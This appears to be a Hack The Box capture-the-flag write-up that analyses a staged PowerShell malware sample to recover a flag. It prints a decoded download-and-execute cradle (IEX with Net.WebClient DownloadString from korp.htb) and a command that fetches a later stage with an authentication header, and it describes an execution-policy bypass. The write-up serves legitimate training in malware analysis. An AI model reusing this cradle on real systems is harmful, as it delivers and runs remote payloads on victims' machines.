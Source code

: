 HTB Apocalypse 2025 Writeup: Thorin’s Amulet

Objective
In this challenge, we were provided with a powershell script Our objective is to find the flag from the provided script
![Scirpt](images/HTB.png)
> **Figure 5:** Threat intelligence report of malicious files via VirusTotal.
Step 1: Analyzing the Given PowerShell Script
There seems to be and encoded command by base64, decoding it revealed the command
 
Decoded command: 
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
This command downloads and executes another PowerShell script (update) from http://korp.htb/update.

Step 2: Fetching the update Script
Since korp.htb needed to resolve correctly, we directly accessed the provided Docker instance at: http://83.136.251.19:48135/update
The downloaded script (update.ps1) contained:
 
Analysis on the update.ps1 script 
1.Fetches another script (a541a.ps1) from http://korp.htb/a541a.
2.Uses a special header (X-ST4G3R-KEY) for authentication. 
3.Executes the downloaded script (a541a.ps1) with Execution Policy Bypassed.
It is concluded that the next step is to retrieve a541a.ps1





Step 3: Fetching a541a.ps1
To retrieve a541a.ps1, ran:
Invoke-WebRequest -Uri "http://83.136.251.19:48135/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -OutFile "a541a.ps1"
 
The script (a541a.ps1) contained hex-encoded string
Decoding it revealed the flag. Used python for the decoding process
 

